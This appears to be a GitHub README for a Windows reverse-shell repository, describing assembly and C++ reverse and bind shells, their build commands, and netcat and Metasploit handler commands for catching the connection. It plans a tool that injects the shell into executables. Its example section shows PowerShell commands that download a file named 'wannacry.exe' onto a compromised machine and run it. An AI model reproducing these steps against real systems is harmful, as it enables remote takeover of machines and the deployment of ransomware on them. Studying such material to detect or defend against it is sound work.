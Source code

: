 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

### Tree

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - To do remote all TEB/PEB, remove all bytes null
  - Ligne 78 v2 : LoadLibraryA replace it by your own offset
  - Ligne 79 v2 : GetProcAddress replace it by your own offset
  - Ligne 193 v2: SOKADDR_IN set you own port and IP address
  
### Architecture

Win32 plateform

[x] XP 
[x] vista
[x] 7
[x] 10 - Windows Defender Detects it's bad for himself

### Soon

\[\*\] coding a lil program :
  * Open biary file exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close binary file Exe
  

## :two: Compilation 

### Build ASM x86

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
### Build C++

Download Devcpp on windows plateform :

  - Project include library : **MinGW64/x86_64-w64-mingw32/lib32/libws2_32.lib**
  - Add **lib** directory to your project.
  - Build it.
  - execv.
  
## :three: Shell Connection 

### Reverse Tcp netcat

```
$netcat -v -l -p 4444
```

### Reverse Tcp msf

```
$ msfconsole
$ use exploit/multi/handler
$ show paylaods
$ set payloads generic/reverse_tcp
$ set RHOST [ip]
$ set LPORT [PORT]
$ exploit
```

### Reverse Bind Tcp netcat

```
$netcat -v victim_ip 4444
```
## :four: Example

### Win >= 7 Bind reverse shell \[ powershell.exe \]

<img src="https://zupimages.net/up/19/01/wq32.png">
 
After to be connected to the powershell, you can download and launch some file with this method :
 
```
[ powershell command ]
>dir env:\
> $url=http://192.168.0.2/wannacry.exe
> wget $url -outfile [ PATH ]
> cmd
> start File
```

### Reverse Tcp With CPP \[ cmd.exe \] 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp \[ cmd.exe \]

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


